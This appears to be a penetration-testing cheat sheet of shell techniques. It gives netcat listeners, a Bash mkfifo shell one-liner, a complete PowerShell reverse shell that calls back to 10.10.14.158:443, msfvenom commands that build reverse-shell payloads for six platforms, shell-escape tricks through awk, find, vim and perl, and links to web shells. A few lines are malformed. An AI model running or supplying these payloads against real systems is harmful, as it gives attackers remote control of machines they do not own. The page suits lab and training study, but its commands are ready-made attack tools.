 Navigation: [[Pentesting]]

---
**Netcat**
```shell
# Listener
sudo nc -lvnp <port>

# Connect to listener
nc -nv <ip><port>
```

**One Liners**
```shell
# Bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**MSFVenom**
```shell
# Linux
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > nameoffile.elf

# Windows
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > nameoffile.exe

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > nameoffile.macho

# Asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > nameoffile.asp

# Jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > nameoffile.jsp

# Java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > nameoffile.war
```

**Interactive Shells by Language**
```shell
# Python
python -c 'import pty; pty.spawn("/bin/sh")'

# Bash
/bin/sh -i
awk 'BEGIN {system("/bin/sh")}'
find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit
vim -c ':!/bin/sh'

# perl
perl —e 'exec "/bin/sh";'

# ruby
ruby: exec "/bin/sh"

# Lua
Lua: os.execute('/bin/sh')

```

**Further Reading**
[`Laudanum Web Shell`](https://github.com/jbarcia/Web-Shells/blob/master/laudanum/asp/shell.asp)
[`Antak Web Shell`](https://github.com/samratashok/nishang/blob/master/Antak-WebShell/antak.aspx)


---
Navigation: [[Pentesting]]